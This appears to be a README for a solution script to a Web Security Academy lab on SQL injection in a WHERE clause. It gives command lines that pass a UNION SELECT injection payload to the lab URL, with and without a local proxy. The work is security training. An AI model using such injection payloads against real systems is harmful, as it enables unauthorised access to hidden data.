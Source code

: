 # How to run script.py

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

#### Copy the string from home page (Make the database retrieve the string: 'string') and replace f1KkGv

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' UNION SELECT NULL,'f1KkGv',NULL--"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' UNION SELECT NULL,'f1KkGv',NULL--" -p 127.0.0.1:8080`
